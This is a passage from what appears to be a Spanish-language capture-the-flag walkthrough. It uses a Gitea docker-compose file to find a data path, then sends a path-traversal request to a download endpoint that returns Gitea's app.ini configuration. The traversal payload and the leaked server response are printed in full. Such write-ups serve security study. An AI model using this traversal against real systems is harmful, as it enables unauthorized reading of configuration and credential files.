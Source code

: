 Explicación: sacamos la ruta que necesitábamos desde este archivo: `docker-config`

```shell 
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

## Paso 15 - 

Acción: 

```xml  
GET /download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini HTTP/1.1
```

Resultado: ahora que sabemos una ruta posible, apuntamos a un archivo común en este servicio: *home/developer/gitea/data/gitea/conf/app.ini*

```xml  
HTTP/1.1 200 OK

Date: Thu, 24 Apr 2025 17:47:30 GMT

Server: Werkzeug/3.0.3 Python/3.10.12

Content-Disposition: attachment; filename="../../../home/developer/gitea/data/gitea/conf/app.ini"

Content-Type: application/octet-stream

Content-Length: 2004

Last-Modified: Fri, 02 Aug 2024 10:42:14 GMT

Cache-Control: no-cache

ETag: "1722595334.8970726-2004-1306138741"

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive



APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo
```